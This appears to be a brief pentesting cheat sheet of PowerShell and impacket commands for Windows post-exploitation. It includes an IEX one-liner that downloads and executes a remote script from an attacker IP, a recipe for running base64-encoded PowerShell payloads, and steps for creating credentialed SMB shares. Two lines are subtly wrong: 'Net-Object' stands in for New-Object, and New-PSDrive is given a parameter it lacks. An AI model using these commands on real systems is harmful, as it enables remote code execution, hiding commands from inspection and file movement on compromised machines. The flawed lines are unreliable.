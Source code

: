 ### Download and execute ps1

```
IEX(New-Object Net.WebClient).downloadString('http://192.168.1.1/blah.ps1')
```

### Execute command from base64

First convert your payload to utf16 little endian
```
echo test | iconv -t UTF-16LE
```

```
powershell -EncodedCommand <base64>
```

### Create smb share:

From impacket:
```
impacket-smbserver -username username -password password shareName shareDirectory -smb2support
```

From powershell:

```
New-PSDrive -name username -password password \\ip\shareName -Credential $cred -PSProvider "filesystem"
```

### Create credential

```
$pass = "password" | ConvertTo-SecureString -AsPlainText -Force
$cred = Net-Object System.Management.Automation.PsCredential('username', $pass)
```

### CD into share

```
cd \\<ip>\<share>
```
